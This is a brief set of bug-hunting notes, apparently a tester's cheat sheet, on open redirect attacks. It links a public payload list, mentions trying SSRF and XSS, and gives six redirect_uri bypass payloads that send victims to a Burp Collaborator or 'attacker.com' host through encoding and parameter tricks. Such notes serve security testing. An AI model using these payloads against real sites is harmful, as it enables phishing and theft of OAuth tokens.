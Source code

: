 - https://github.com/cujanovic/Open-Redirect-Payloads/blob/master/Open-Redirect-payloads.txt
- try SSRF
- tray XSS

```jsx
trarget.\com/%09/myburpcollab
trarget.\com//myburpcollab
trarget.\com\\myburpcollab
target.\com/%0d/myburpcollab
redirect_uri=target.\com&redirect_uri=attacker\.com
redirect_uri=target.\com%40myburpcollab.\com
```

-
